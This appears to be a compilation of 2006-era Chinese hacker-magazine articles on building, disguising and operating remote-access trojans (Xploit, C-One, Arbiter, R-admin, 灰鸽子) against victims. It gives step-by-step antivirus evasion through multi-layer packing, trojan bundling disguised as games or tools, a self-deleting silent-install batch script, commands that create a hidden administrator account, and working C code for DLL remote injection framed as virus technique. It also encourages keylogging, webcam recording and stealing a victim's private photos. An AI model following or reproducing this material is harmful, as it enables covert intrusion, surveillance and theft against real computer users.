好了，让我们用记事本分别打开 houmen.asp 和 houmen2.asp，如图 4、图 5。对比一下看看，怎么样？好看了吧，这次再利用我们千辛万苦得到的上传权限，写上地址回车。哈哈，可爱的后门向我们招手了。记得加密之前要把后门的密码改好，加密之后看不懂了改不了，可不要怪我哦……

（本文涉及到的 screnc，光盘有收录）

图4

图5

## 菜鸟自乐，Xploit马

yizhigu [S.H.C]

最近，我感觉自己俨然成了一个“伯乐”，成天泡在网上淘“马”，经过不懈的努力，终于发现了一匹威力强大的终极好马——Xploit。这是一款进口木马，不光整合了基本木马的功能，还包含了许多有趣的恶作剧功能。

## 一、服务端的配置

首先打开 client 客户端程序，选择“create server”来配置服务端。“Connect IP/DNS”栏填写你的 IP 地址或者是域名，如果只是内网进行控制，可以直接填写本机的内网 IP 地址。下面的两个端口设置分别表示本地监听的主端口和文件传输的端口，使用默认的 4000 和 4001 就可以了。

“Installation”是安装项目，通常不用修改。我们常见的是注入进程模式。“inject”表示注入的进程，默认是 IE 进程；如果要注入到 explorer 进程，可改成 `%systemroot%/explorer.exe`。注入浏览器进程可能使稳定性稍差，故一般保持默认。“Misc”代表杂项，“melt server”表示运行后自删除；“startup message”可定义运行后的提示语。服务端最终建议使用 ActiveX Start 方式启动，以减少隐蔽性风险。

图1

## 二、服务端的免杀

服务端生成后，我们首先要做的就是免杀。这款木马目前已被许多杀毒软件列入黑名单。在生成服务端的最后，程序会提示是否使用 UPX 加壳。通常建议不加壳，因为加壳后代码会被打乱，不利于分析和后续处理。可通过修改入口点等方式进行简单处理，再结合其他工具进行特征调整，从而提升通过率。

木马，最后别忘记给程序加个压缩壳。（不过经小编测试，发现用 Peditor 修改后程序运行出错，看来此方法还带有一定的局限性）

图2

## 三、木马的传播和内网使用

在上期的 X 档案中，我给大家介绍了如何利用 wmf 漏洞制作网页木马，许多朋友关心的是网页木马的利用问题。除了通过 webshell 插入到网站的页面，是不是也有其它方法呢？有的朋友想到了在 rm、asf 等音频文件中插入网页木马，其实在 exe 文件中也是可行的。我们要用到一个工具：EXE 广告注入机 2006……

图3

你可以选择一个利用价值比较高的 exe 程序放到下载站点或者网络硬盘里推荐给别人，最好是一些实用工具或者游戏外挂，这样命中率就相当高了。文件捆绑也是一个不错的选择，我给大家推荐一款新近推出的捆绑机：KENDY 捆绑器……

图4

这两款工具制作出的程序已经能被卡巴斯基查杀了，但是幸运的是仍然可以通过其他大多的杀毒软件检测。记得早先我们在网吧控制肉鸡都是利用科迈提供的内网二级域名……

试用的内网二级域名：http://www.dns0755.net/ddns/mgn_newdns0755.php，注意申请内网专业版的二级域名，然后下载相关软件 http://www.dns0755.net/ddns/client/truehost.zip。至于如何利用本文就不做介绍了，域名过期后可以反复申请，转发到 IP 绑定的地址文件就可以实现内网的远程控制了。

## 四、木马的控制使用

在网上找了半天，终于找到了一个汉化过的客户端。来看一下该木马的一些基本和特殊功能，首先看到客户端可以选择“上线通知”和“被连接时”，来分别进行肉鸡上线后的提示和进行客户端窗口透明化……

图5

打开“进程管理器”后再点刷新就可以得到对方的当前进程，服务端的进程在任务管理器中是红色标识的，这样避免一些新手朋友可能产生的错误操作……

图6

“窗口管理器”是用于操作当前肉鸡的活动窗口，功能非常全面和强大，搞点小小的恶作剧不成问题。“键盘记录”选中激活后，待远程肉鸡输入键盘数据，点击更新就可以查看对方当前的键盘输入了，并且可以把记录下的键盘输入保存下来（图7）。“信息”功能可以显示当前肉鸡操作系统和当前服务端的一些信息。“对话”功能是我非常喜欢的，我们点击“打开对话”后就可以与肉鸡进行交流，双方的对话通过回车键就能进行相互发送（图8）。“远程 shell”具备了三个参数：`/open`——在远程计算机打开新命令行；`/close`——关闭 shell；`/cls`——清空命令行，如图9。“PC”栏目下可以选择远程关机、注销或者重新启动，最下面的“快速启动”是以强制断电的冷重启模式进行，此项有可能会损伤硬件，请大家谨慎使用。“服务端”这个项目下的功能也比较有意思，可以重启或者关闭服务端的进程，同时也可以进行远程对换，通过 `ping` 命令可以反馈出接收和发送的数据。“复制 IP 到剪切板”是用来干什么的，我想地球人都知道吧。

图7

图10

内网，不过用在肉鸡上，就完全成为恶作剧。在“管理”的操作里面，我们可以禁止和恢复鼠标、键盘、任务管理器甚至屏幕的操作，也可以把本地剪切板的内容发送到远程电脑。再来看一下“恶作剧”功能，“打印桌面”给我们提供了一个在远程桌面涂鸦的机会，看看我的杰作（图10）。

在“声音”下可以选择不同频率的声线传送到远程电脑的音频输出设备中，想想对方正在玩游戏时给他来这么一下，他肯定会大吃一惊的。XPl0it 的控制中当然少不了打开关闭光驱、远程发送 URL 和锁定鼠标按钮等这些常规的恶作剧，也可以输入自定义字幕反馈到远程桌面上。最后再来看一下“任务栏”，给了我们一些快捷的操作，完整项包括功能完成后可以通过“发送”按钮打开相应的窗口，例如“运行”“控制面板”和“任务管理器”等。利用这个功能我们可以删除肉机里屏蔽的许多项目。还是那句话，只有想不到，没有做不到。

图8

图9

“管理肉鸡”功能，是我要介绍的重点。这个功能非常强大。如果用在正规网络管理模式上，这些功能的确可以很方便地管理整个内网，不过用在肉鸡上，就完全成为恶作剧。

## 五、木马的手工清除和小结

如果大家是在本地测试，直接通过远程卸载功能就可以清除该木马。既然免杀的方法也公布了，X 的读者也可能面临成为别人肉鸡的危险，下面介绍一下如何进行手工清除。经过我的测试，该木马不能完美利用 DLL 插入到进程，所以会在任务管理器中暴露自身，例如进程中出现 2 个 explorer 或者多出 6 个 svhost，极有可能就是该木马，在默认配置下服务端是一个 IE 的进程。

我们结束该进程后，运行 `regedit` 进入这个注册表项目：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components`，由于这个键值下启动的程序比较少，一般是 OE 和 IE 的一些 DLL 组件，所以找到服务端是非常容易的。根据键值下显示的服务端名称直接到对应目录删除，就可以完全清除掉该木马。如果是直接利用注册表的 RUN 键值来启动，解决的办法就更为简单了。

总体来说，这款木马的功能是非常齐全的，并且具备优良的稳定性。如果结合 rootkit 来进行深度隐藏，会有更好的效果。该木马经过压缩后的体积也是让人比较满意的，可惜的是它的功能完全让人感到远程控制的意义和乐趣。希望本文能对一些新手朋友起到抛砖引玉的作用，有什么疑问可以到 X 论坛（www.hackerxfiles.net/index.php）与我交流。

（文章中涉及到的工具 xploit.exe 已经在《X》2006，RendyBinder2 已经收录于光盘中）

## DIY菜鸟造HTTP小马

在看了今年第一期“用 XML Http 和 nc 打造个性小马”一文所介绍的变态方法后，我突然也有了 DIY 一个小马的冲动。最近我一直在使用 rntSvc&v!DC，感觉它使用 IE 来直接控制肉鸡的方法的确很有意思。下边，各位菜鸟兄弟们就和我一起动手 DIY，制作一个 HTTP 小马吧！

首先我们要准备几个小工具：NETBOX 和一个骏悍的 ASP 木马（推荐海阿顶端网 ASP 木马@2006）。NETBOX 是一个可以独立模拟 ASP 环境的工具，无须 IIS 的支持。安装完成后新建 `webroot` 目录，并把 ASP 木马放入该目录；在 Samples 中找一个 `.BOX` 文件复制到 `webroot`，编辑其中服务名、显示名以及端口（文中示例将 80 改为 8008），然后执行 build 生成 EXE。

选择程序输出位置 `D:\webroot\`，点击 Build 后生成 EXE。先测试运行前需要将其注册为服务，在 CMD 下执行 `D:\webroot\www.exe -install`。然后在 IE 输入 `http://127.0.0.1:8008`，即可看到控制界面（见图2）。

输入密码进入后，可尝试“WScript.Shell 程序运行器”，如执行：`net user aaa /add` 与 `net localgroup administrators aaa /add`（见图3），说明可获得较高权限。后续可将程序复制到目标机并执行 `www.exe -install` 完成部署。

作者随后讨论 NETBOX 体积和查杀问题，转而使用 Xeneo 进行改造：将安装目录复制到 `D:` 并改名 `webroot`，删除无关文件；使用 ASPACK 压缩；通过 Regsnap 跟踪安装过程，把导出的 REG 转 INF，再配合 BAT 进行静默部署。

右栏主要说明 Xeneo 改造步骤：删除控制面板项、调整启动项与目录映射、修正 `config.xml` 中 `HomeDirectory` 与 `AppMapping`，并设置端口（示例 8008）。还提到由于不能直接注册为服务，需要通过 INF 与启动项配合实现自启动。

```bat
@echo off
@rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %CD%\axp.Application.reg.inf
```

运行 bat 文件后，`D:\webroot\Xeneo\xeneo.exe` 可正常运行。随后编辑 `config.xml`，将目录和映射路径改为目标环境可用的相对/绝对路径，并保留目标端口配置。

```ini
[Version]
Signature="$CHICAGO$"
Provider=...

[DefaultInstall]
DelReg=...
AddReg=...

[...AddReg]
HKCU,...,"rundll32.exe ..."

[Strings]
...
```

文末说明：将 `xeneo.exe` 改名为 `rundll32.exe`（数字 1 非字母 l），由于新增 INF 文件，BAT 脚本也需同步调整，以完成完整部署流程。

## 牧马记

最终内容：

```bat
@echo off
@rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %CD%\AXP_Application_1.reg.inf
...
@wwwroot.exe 解压 WWWroot 网页文件
@rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 %CD%\key.inf
...
@run132.exe 最后一步运行 xeneo.exe
@END
@del %0
```

因为 BAT 运行时会出现一个 CMD 窗口，所以又把 BAT 转换成了 EXE 可执行程序 run.exe。最后将相关文件、INF 文件与自解压程序组织成木马结构并生成 main.exe。

再启动 IE 输入地址 http://127.0.0.1:8080，可爱的“小马”又出现了。同样可以执行 WEBSHELL，并获得 system 权限。

> （本文涉及到的相关程序 NETBOX、Xeneo，已收录）

## C-One汉化版

相信大家都用过不少功能强大的木马，但这些木马也常会成为杀毒软件重点关注对象。因此，保留几个不太常见但功能实用的小马是有必要的。这里介绍 C-One 汉化版的使用方法和技巧。

在 EXE 类型选项中可选择“自我删除”；插入进程可选“默认浏览器”等方式，以增强隐蔽性。设置完成后点击生成按钮即可。

## 一、配置服务端程序

打开 C-One 程序后点击“服务端”，填写密码、DNS/IP 与监听端口等信息，再进行生成设置。

## 二、植入木马，监听上线

将配置好的服务端 server.exe 上传到目标并运行，成功后可自动删除。随后在主界面点击“设置”，填入上线密码与端口，点击“监听”等待目标上线。

## 三、管理肉鸡

耐心地等待一会儿肉鸡就会自动找上门来了，选中上线的肉鸡，右侧就会出现对方的相关信息。C-One 可以让你轻松操作肉鸡，极适合新手使用，如图4。

### 1. 上传文件功能

就像在本机操作一样，直接将要上传的文件用鼠标拖到要传送到肉鸡的文件夹里就 OK 了。上传木马、键盘记录、黑客攻击程序都可以使用这个功能来完成，如图5。

### 2. 下载文件功能

下载肉鸡上的资料应该是小菜们的拿手戏了吧。比如说发现肉鸡的主人是个漂亮 MM，那么对方的电脑里自然就少不了照片、日记什么的，嘿嘿，所以这个功能还是很有用处的。找到要下载的文件，点击鼠标右键，选择下载，就可以将文件下载到 C-One 程序目录的 Downloads 文件夹里了，如图6。

### 3. 程序运行和文件删除功能

在上边的图6中想必大家已经看到了，当选中文件后，点击鼠标右键，选择“运行”和“Delete”，就可以执行相应的命令了。我们可以利用上传功能将其他的木马程序或者盗号程序传送到肉鸡上，再使用运行功能使之运行。当然，最好是先用删除功能将杀毒软件 delete 掉。

### Arbiter“偷窥”也疯狂

说起远程控制软件或木马，大家首先想到的一定会是灰鸽子、黑洞、pcshare、Radmin，这些软件功能强大也各有特点，但是总有不尽如人意的地方。如果给你一款无启动、无连接、无进程、选项灵活、可更改各模块文件名增强隐蔽性、占用资源小，在控制目标主机时无任何异常，就算 IceSword（水刃）也无法查探出其运行的软件，而且还有全世界木马界首创的视频调节技术，你还不心动吗？今天我就给大家带来一款新的远程控制软件——Arbiter。

## 一、配置服务端

首先从网上下载 Arbiter，解压后运行客户端程序 Arbiter，打开界面如图1。在界面的空白处点击右键会弹出一个菜单，关于 Arbiter 的功能上面全都有。我们来配置服务端，点击“创建服务端”，在弹出的“创建服务端”窗口配置我们需要的服务端（图2）。在“反弹地址”栏输入服务端程序和客户端程序进行反弹连接时使用的域名，Arbiter 使用的是现在流行的反弹连接方式。……（后续正文继续介绍端口、验证密码、安装名称、守护模块、服务模块及系统兼容设置）

（本文涉及恶意远控/木马配置与使用内容）

### 散马记

## 二、配置客户端

服务端配置完成后我们回到主界面，在“端口和密码”的后面分别填上我们刚才配置服务端时所填写的端口和密码就行了，因为作者已经设置成自动“倾听”。

接下来我们来更新反弹连接的 IP 地址，这样就可以使服务端程序和客户端尽快连接上。更新 IP 地址的地方在主界面的左上角，就是一个大大的 Arbiter 图标（图3）；点击图标后弹出一个更新 IP 地址的窗口（图4），分别在“域名”“帐号”和“密码”处填上你在 IIS 网申请的域名、帐号和密码，确认无误后点击“更新 3322 动态 IP”即可。

## 三、远程控制

当有肉鸡上线后我们就可以对其进行控制了，Arbiter 的控制命令并不是很多，但是对于我们来说已经够用了。首先在上线的主机列表中选择一台我们要控制的电脑，然后单击右键在弹出的菜单中选择我们要使用的功能。

服务端配置情况（图5），还可以开 SOCKS 代理、远程 shell 和进行键盘记录。其中远程 shell 中可以自定义 10 个命令，这一点作者设计得比较人性化（图6）。

“远程文件管理器”可以进行上传、下载、删除、改名、运行等多项操作。首先在“远程文件管理器”中选择你要下载的文件，点击右键选择“文件下载”，然后 Arbiter 就会开始下载。Arbiter 把下载下来的文件自动保存在 Arbiter 根目录下的 Downloads 文件夹，不过可惜的是 Arbiter 不支持断点续传，希望作者在以后的版本中能够改进。“远程进程操作”和“远程屏幕操作”的操作很简单，在此我就不多说了。

如果说 Arbiter 只有上面的那些功能，那么它只能算是一款普通的木马。Arbiter 与众不同的地方就在于它具有全世界木马界首创的视频调节技术。点击“远程摄像头监视”，在弹出的菜单中有几项选择（图7），各种分辨率随意调节（图8），还有最大压缩、较大压缩、正常压缩和较小压缩四个压缩等级可供选择，以调节传送速度（图9）！更可远程实时录制，点击“处理拍摄结果”就可以把实时录制的结果保存成文件，方便转发。期待作者以后还会开发出定时录制、屏幕控制、远程注册表操作等功能。

至此，Arbiter 的功能我就给大家介绍完了，也许有的地方并不尽如人意，希望在以后的版本中会看到更加完善的 Arbiter。最后还要说一下，在测试 Arbiter 的时候由于手头没有 VIP 的正式版本，而作者也没有提供 VIP 的正式版本，所以向大家展示的不是很完全，我想等到正式版本出来之后会更好吧。好了，软件就介绍到这里，有兴趣的朋友可以自己试试看。

（本文中所涉及到的 Arbiter 已收录到光盘中）

### 珊珊徒手过卡巴——浅谈木马的多重加壳

黑暗中的行者


喜欢玩木马的小菜小黑们，你们是用什么方法给自己的马儿免杀的呢？我相信你们都用过加壳这种方法吧！有时，一种壳往往不能逃过杀毒软件的查杀，那我们能不能通过加几重壳的方法达到免杀的目的呢？答案是肯定的，我们完全可以通过几种壳的强强联手达到免杀。在06年第1期“让木马玩转杀毒软件”一文中，就讲到加多重壳免杀。但该文讲的只是直接连续地给木马加上多重壳，这种方法在很多情况下是行不通的，那个提出疑问的“菜鸟”不是没有道理的。我们以灰鸽子服务端 gezi.exe 为例。先给它加个 Aspack 壳，然后直接用 skvp V1.32 给它加上一重保护壳，最后得到的 gezi.exe 文件根本无法运行。而如果我们加了 Aspack 壳后先用 freeRes 这个资源释放工具给它释放资源，再用 skvp V1.32 来给它加上第二重壳，那最后得到的 gezi.exe 文件就可以正常运行了。下面演示一下如何用多重加壳的方法来“骗”过卡巴。

- 1. 打开 Aspack2.12，在“打开文件”一栏，选择“打开”，选择我们要压缩的 gezi.exe 文件（743KB），选中后会自动压缩，得到大小 292KB 的 gezi.exe，如图1。先将它复制为一个名为 gezi123.exe 的文件作为备份。然后打开资源释放工具 freeRes v0.94，点击“文件”菜单，选择刚才用 Aspack 加壳后的 gezi.exe 文件，就会弹出一个信息框“载入资源错误，它可能已被压缩，您是否需要释放资源进行分析？”，我们选“是”，然后又弹出一个消息框“程序没有自动关闭，请自行关闭”，点“确定”，如图3。此时它将强行运行 gezi.exe 文件，gezi.exe 自动消失了，然后就见到自己的计算机在灰鸽子客户端自动上线了。而这时发现什么资源也没有被载入 freeRes，关键的一步快要到了，不要卸载掉自己上线的服务端，直接进入下一步。


- 2. 重新点击 freeRes 的“文件”菜单，打开刚才备份的文件“gezi123.exe”，这时也会出现如图2一样的消息框，点确定后，就会发现 gezi123.exe 里面的资源成功被载入 freeRes 里面了（后来明白如果在配置服务端的时候没有选择“安装成功后自动删除安装文件”一项，就可以直接被载入 freeRes 中），如图4。

- 3. 点“功能”菜单，选择“建立可编辑资源”，弹出“已成功建立了可编辑资源”，点“确定”后生成的 gezi123.exe 会自动覆盖掉原来的文件。

- 4. 最后一步就更简单了，退出并打开 skvp V1.32，选中要保护的木马 gezi123.exe，点“保护”会出现一个对话框“该文件可能已经被其他壳加密过，你想再次用 skvp V1.32 加密它吗？”，我们不管它，直接选“是”，如图5。过几秒钟在 skvp V1.32 状态栏里面显示“温馨提示：文件加密成功！”，说明我们的 gezi123.exe 已经被加密好了，最终得到 384K 的木马程序 gezi123.exe，把卡巴升级到当天最新病毒库然后再扫描一下生成的文件 gezi123.exe，这下卡巴再也不能查到我们的木马了……测试一下，双击运行 gezi123.exe，过了一会儿音响里传来一声清脆而温柔的女声“有服务端上线，销魂密”…从免杀到自动上线防测试成功，如图7。对于红血完美杀法的总结：关键点就是先用 freeRes 来给加壳的木马进行资源释放，然后再加上别的壳，重复进行，直到免杀为止。


图6


图7

#### 明修栈道，暗渡陈仓——才是完美捆绑木马

想必看X档案的朋友都会用 RAR 自解压文件加上自己的小马……今天向大家介绍几种小工具，完全可以替代自解压文件，而且安全可靠。首先要介绍的是 FilePacker……简单地说，就是把目录文件打包并选择要运行的文件，支持加密、命令行运行和隐藏状态显示，适合隐藏执行批处理文件。


图1

经过处理，R-admin 所有的 DLL 都免杀了……并可通过属性与系统隐藏设置增强隐蔽性。


图2

马修改和创建时间和其他的文件不相同，别人会怎么想。把游戏录像和安装 R-admin 所需文件放在同一目录里，运行 FilePacker 一路 next，选择打包目录，这里就是需要选择打包文件运行后要运行的程序，如图3。


图3

因为运行后只显示游戏动画，后台安装 R-admin，所以选择录像可见、最大化显示，bat 窗口隐藏。用 bat 安装 R-admin，所以命令行就不用填了，默认就行。其实可以直接修改“百世经纶 R-admin 生成器”的 server 程序，在“命令行”选项那里填上安装的命令，就是连接端口和密码，够简单的吧，如图4。


图4

最后在百世经纶的说明里看到 r_server.exe、adndll.exe、raddrv.dll 三个文件安装后已经简化为 systemram.exe 一个程序了，早知道就不用费那笨工夫一个一个地修改了。可以在自己机器上安装一次 server.exe，在 system32 的目录里找到 systemram.exe，推荐使用。

继续看下一步的配置，因为不是什么游戏安装程序，就不用选“显示解压进度条了”，最好别选上“进程结束后删除”，看完后录像不见了，白痴都会怀疑。密码保护也不用了，毕竟只是一个游戏录像，如果换成别的比如游戏安装程序什么的可以自己发挥。选上覆盖所有文件，以防被别人先安过相同的木马，如图5。


图5

下边就是解压路径，程序有详细的说明，其实不一定都放在 system32 的目录，现在杀毒软件一启动必查这个目录。这样就完成打包了，如图6。


图6

木马制作完了，大家会发现 FilePacker 其实也就是自解压文件的高级版本，最后还是要用 RAR 解压的。不知大家研究过没有，基本上所有的安装制作程序都是用 RAR 解压的，即使右键不显示，还能在“打开方式”里用 RAR 打开。个人认为这要比制作自解压文件要好，如果你还是坚持使用自解压文件，就要考虑 bat 的窗口显示问题了。这些推荐一个小工具 Quick Batch File compiler，简单说就是 bat2exe，把批处理 bat 转换成可执行文件 exe 的工具。这个软件最主要的功能就是编译后的程序可以不带窗口运行，不管你的命令加不加 @，只要选择编译结果是“幽灵程序”，运行后就没界面，而且这种程序不是正规可执行文件，杀软绝对不会过问的。强行结束杀毒软件和防火墙的进程可以使用工具 MT，在原来的批处理里写上 mt 结束进程的命令 mt.exe -pskill 进程名，这样编译后的程序就能运行 mt.exe 的功能了，并用 Quick BFC 的捆绑功能带上 mt.exe，如图7。


图7


图8

看到这儿有朋友就会说到最后不还是自解压文件。开始搞的只是能骗骗菜鸟，下面就是玩高级的了。聪明网友想必会想到再给自解压文件加密吧，可是加密缩完后程序一般都是无法进一步压缩，或者能压缩完成后直接出错没办法运行，修改文件头还是能用 RAR 打开，还是自解压文件。

前几天写程序的时候发现了一个好软件 AppPackager，如图8。此工具可以直接把软件做成绿色软件，功能极其强大，自己慢慢用吧。这个软件也是一个加壳的好工具，能给文件加密，只把自解压文件打包就可以，连大名鼎鼎的 PEiD 也识别是 Delphi 程序。注意，这个软件保护的性质是运行软件的时候把文件释放出来，如果是解压到所在目录，运行时就会在目录里看到你打包后的所有文件，这个软件倒是像以前的一种叫 Cexe 的保护壳，不知道是不是它的更高版本，没分析。所以要想不被发现，就在打包选项里选上“解压到临时目录，运行后删除”，别忘了加隐藏和系统属性。

到这里，所有的软件都介绍完了。检查一下做好的木马，点右键用 RAR 打不开了吧，运行一下，游戏录像出来了，在系统服务里有 R-admin 服务，免杀木马成功，自己试一下。后来发现，也是有几个不能给自解压文件二次加密的，比如仙剑和冰风文件加密器，可能有的朋友听都没听过，只要是能让 RAR 判断不出来就可以。不过给自解压文件二次加密的办法好像没听人说过，写这篇文章废话太多了，各位大哥见谅了，如果有更好的办法请不吝赐教。

> （文中所涉及到的 FilePacker、Quick Batch File 和 AppPackager 已收录到光盘中）


### 移动骇客

赵元昊

最近，阿新上课总是不认真听课，总是摆弄个破手机不知道在干什么，嘴角还总是露出一阵阴奸笑。我开始还以为是因为捡了一个手机而高兴，劳动节这天晚上，在我的百般要求下，阿新才同意用我的“桶强”来换取一个惊人的秘密（靠呀，真黑）！

我们需要以下工具：

- 一台能连接 Internet 的电脑；
- 一个支持 K-JAVA 的手机（现在的手机基本都支持），并且开通 GPRS 服务或者是 CDMA 系列的手机。

关于 GPRS 和 CDMA，是中国移动和中国联通为了让手机与电脑网络进行数据沟通而开设的服务，具体的技术描述大家详见网上的介绍。我们来说一下 K-JAVA。Java 是 Sun 公司开发的一种较新的计算机编程语言，K-JAVA 即 J2ME（Java 2 Micro Edition），是专门用于嵌入式设备的 JAVA 软件。JAVA 语言可以跨平台运行，软件开发商可以很容易地开发应用程序。K-JAVA 的动态下载能力可以让用户轻松下载，并方便地安装到手机中，不断丰富商务和游戏功能。K-JAVA 提供了 HTTP、TCP/IP 等高级因特网协议，手机预设 K-JAVA 平台后可以自由访问因特网，这意味着 WAP 协议之外的又一手机和网络之间的桥梁。

好了，关于 JAVA 的简单介绍就到这儿，在实验之前，先说一下我们的思路：我们先把服务端安装在电脑上并运行，再通过手机来遥控电脑。可是，问题在于怎么把客户端放在手机上呢？经过我的大脑和小脑的反复思考，天才的我想出了一个天才的主意：现在有好多网站支持手机下载游戏、铃声什么的。我们就要把客户端伪装成游戏传到网上，再下载到手机上，接下来讲出我们今天的主角——移动骇客 v1.1。

先介绍一下里面的 3 个文件：

- EMailMobile.jad，是传到手机里的文件之一；
- EMailMobile.jar，是传到手机上的文件之一（注意：不用解压）；
- GetMailPop3.exe，是在 PC 上运行的服务程序，是在被控制的机器上运行的（服务端）；
- SendMailSmtp.exe，是 PC 上模拟手机发送的程序；
- 是客户端，与那个 .jar 文件功能相同，但是可以在 PC 上运行；
- readme.txt，这个就不用我介绍了吧。

我们找一个可以上传游戏的网站，比如 http://www.kekebar.com/，注册后，在自主页里选择上传我的游戏（图1），然后选择文件 EmailMobile.jad 和 EmailMobile.jar 上传（图2），上传成功后下载到手机备用（其实大家也可以直接使用手机数据线将文件传到我们的手机上，如果是智能手机用户，直接用读卡器存到手机存储卡上也可以），接下来我们来配置服务器。

先打开 GetMailPop3.exe 输入邮箱地址（图3），然后点下一步。接着，我们把信息填完整（图4），在第五栏中“每隔X秒扫描一下服务器”，X 应该是一个 60 到 600 的自然数，默认为 200，然后就可以了，配置完成（图5）。点开始服务，至此 PC 上一切工作结束。

移动骇客可以实现远程关机、执行命令行、锁定电脑等功能，但是，它不是木马，直接删除就可以了。还有就是在 Win98 下无法锁定电脑。

我们来看手机上的操作，由于条件限制，无法截图，敬请原谅。客户端有 4 个选项，分别是：发送命令、接收邮件、手机设定、作者信息。手机设定里填入刚刚在计算机上设置的邮箱服务器、地址、用户名和密码；接收邮件是接收邮箱里的邮件。再下来是最重要的发送命令，有 4 个命令：关机、锁定电脑、执行命令行和弹出信息，虽然很少，但是它却昭示了手机木马的希望。

最后说一下它的原理：手机通过 E-mail 发送命令到邮箱，计算机下载邮箱里的命令并执行，就这么简单，相信在不久的将来，手机安全一定会成为大众关注的又一个焦点。

（文章中涉及到的工具移动骇客，光盘中已收录）


## DLL病毒基本攻破


对于 Win32 下的病毒来说，DLL 远程注入技术使用非常广泛。这种技术之所以能够得到如此广泛的应用，在于它不同于其他 EXE 形式病毒。通常应用该技术的病毒体寄存在某个 DLL 文件中，依赖别的程序启动时被加载到进程中运行。

这样做的好处包括：可以躲避一般进程查看工具；即使被发现也较难清理。因为病毒 DLL 一旦被加载，只要宿主进程未结束，该 DLL 就不会从内存卸载。

在开始之前先介绍几个要用到的 API 函数。

- **OpenProcess**：用于打开要寄生的目标进程。
- **VirtualAllocEx / VirtualFreeEx**：用于在目标进程中分配/释放内存空间。
- **WriteProcessMemory**：用于向目标进程写入要加载的 DLL 名称。
- **CreateRemoteThread**：远程加载 DLL 的核心，控制目标进程调用 API。
- **LoadLibrary**：目标进程通过该函数加载病毒 DLL。

上面对函数做了简要说明。随后以 A2S.exe 作为寄生目标进程，先看一段 DLL 示例代码。

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch(fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL, _T("成功加载"), _T("信息"), MB_ICONINFORMATION);
        break;
    case DLL_PROCESS_DETACH:
        MessageBox(NULL, _T("顺利卸载"), _T("信息"), MB_ICONINFORMATION);
        break;
    }
    return TRUE;
}
```

以上是一个简单的 Win32 DLL 程序，重点是 DLL_MAIN 中的处理逻辑。对于病毒场景，需要在 `DLL_PROCESS_ATTACH` 事件中执行实际行为。

```cpp
case DLL_PROCESS_ATTACH:
{
    StartVirus();
}
break;
```

相信经过上面的说明后，下面正式“真刀真枪”实践，代码如下：

```cpp
DWORD FindA2S(LPCTSTR lpszProcess)
{
    DWORD dwRet = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    Process32First(hSnapshot, &pe32);
    do {
        if (lstrcmpi(pe32.szExeFile, lpszProcess) == 0) {
            dwRet = pe32.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &pe32));
    CloseHandle(hSnapshot);
    return dwRet;
}
```

这里使用 ToolHelp（或 PSAPI）函数库按进程名查找目标进程，返回对应 PID。拿到 PID 后即可调用 OpenProcess 打开目标进程。

```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    dwProcessID
);
```

接着说明 OpenProcess 权限参数：`PROCESS_CREATE_THREAD` 用于创建远程线程，`PROCESS_VM_OPERATION` 用于目标进程内存分配/释放，`PROCESS_VM_WRITE` 用于向目标进程地址空间写入数据。

当目标进程句柄打开后，可通过在其地址空间中写入 DLL 路径，并借助 `CreateRemoteThread` 让目标进程调用 `LoadLibrary`，完成 DLL 远程注入。

```c
DWORD dwID;
LPVOID pFunc = LoadLibraryA;
HANDLE hThread = CreateRemoteThread(hProcess,
    NULL, 0,
    (LPTHREAD_START_ROUTINE)pFunc,
    (LPVOID)"Yanyangdaxue.dll", 0, &dwID);
```

不过结果肯定会让大家大失所望——注入 DLL 失败！现在让我们来分析一下失败的原因吧。我之前说过，在 Win32 系统下，每个进程都拥有自己的 4G 虚拟地址空间，各个进程之间都是相互独立的。在这里，我们当作参数传入的字符串 `Yanyangdaxue.dll` 其实是一个数值；它表示这个字符串位于 `Virus.exe` 地址空间中的地址，而这个地址在传给 `A2S.exe` 之后，它指向的东西就失去了有效性。

由此看来，我就需要做这么一系列略显繁杂的手续——首先在 `A2S.exe` 目标进程中分配一段内存空间，然后向这段空间写入我要加载的 DLL 名称，最后再调用 `CreateRemoteThread`。这段代码就成了这样：

```c
// 向目标进程地址空间写入DLL名称
DWORD dwSize, dwWritten;
dwSize = lstrlenA(lpszDll) + 1;
LPVOID lpBuf = VirtualAllocEx(hProcess, NULL,
    dwSize, MEM_COMMIT, PAGE_READWRITE);
if (NULL == lpBuf) { CloseHandle(hProcess); }

if (WriteProcessMemory(hProcess, lpBuf, (LPVOID)lpszDll,
    dwSize, &dwWritten)) {
    if (dwWritten != dwSize) {
        VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
        CloseHandle(hProcess);
    }
}
```

```c
// 使目标进程调用LoadLibraryA加载DLL
DWORD dwID;
LPVOID pFunc = LoadLibraryA;
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)pFunc, lpBuf, 0, &dwID);
```

需要说明的有两点，一是由于要在目标进程中为 ANSI 字符串分配内存空间，所以这里凡是和目标进程相关的部分，都明确使用了后缀为 “A” 的 API 函数。当然，如果要使用 Unicode 字符串的话，可以换作后缀是 “W” 的 API。

第二，在这里 `LoadLibrary` 的指针是取的本进程的 `LoadLibraryA` 地址。这是因为 `LoadLibraryA/LoadLibraryW` 位于 `kernel32.dll` 之中，而 Win32 下每个应用程序都会把 `kernel32.dll` 加载到进程地址空间中一个固定地址，所以这里的函数地址在 `A2S.exe` 中也是有效的。

```c
// 等待LoadLibrary加载完毕
WaitForSingleObject(hThread, INFINITE);
// 释放目标进程中申请的空间
VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
CloseHandle(hThread);
CloseHandle(hProcess);
```

在此解释一下 `WaitForSingleObject` 这句。由于我们是通过 `CreateRemoteThread` 在目标进程中另外开辟了一个 `LoadLibrary` 线程，所以我们必须等待这个线程运行完毕才能够释放那段先前申请的内存。

